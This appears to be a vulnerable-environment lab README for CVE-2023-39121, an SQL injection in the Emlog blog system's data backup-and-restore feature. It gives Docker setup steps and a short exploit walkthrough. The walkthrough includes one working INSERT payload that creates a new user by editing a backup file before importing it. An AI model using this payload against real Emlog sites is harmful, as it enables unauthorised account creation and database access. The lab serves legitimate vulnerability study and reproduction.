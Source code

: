 # Emlog data.php Background SQL Injection Vulnerability (CVE-2023-39121)

Emlog is an open-source blog system. This vulnerability exists in the data backup/restore functionality where improper input validation allows attackers to execute arbitrary SQL statements through specially crafted backup files.

Reference Links:

- <https://github.com/safe-b/CVE/issues/1#issue-1817133689>
- <https://www.emlog.net/docs/install/install_docker/>
- <https://hub.docker.com/layers/emlog/emlog/pro-latest-php7.4-apache/images/sha256-55bcc4861e1cc99ad79505be05ca3f3e5d9bb5dd16b8f2edc6ae62f7315cb8df>

## Vulnerability Environment

Execute the following command to start an Emlog 2.1.9 server:

```
docker compose up -d
```

After the environment starts, accessing `http://your-ip/install.php` will redirect to the installation page. Register a username and password, then complete the installation. After completion, log in to the admin management interface.

## Exploit Steps

1. Click: System → Data → Start Backup  
   ![Backup Start](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/1.png)

2. A SQL file will be downloaded  
   ![Downloaded SQL File](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/2.png)

3. Open the SQL file and add a malicious SQL statement (example: inserting a new user)
   ```sql
   INSERT INTO emlog_user VALUES('110','','$P$BnTaZnToynOoAVP6T/MiTsZc9ZAQNg.',(select user()),'writer','n','','123@qq.com','','','0','1687261845','1687261845');
   ```
   ![Modified SQL File](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/3.png)

4. Import the modified SQL file  
   ![SQL Import](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/4.png)

5. A new user appears, confirming successful SQL injection  
   ![New User Created](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/5.png)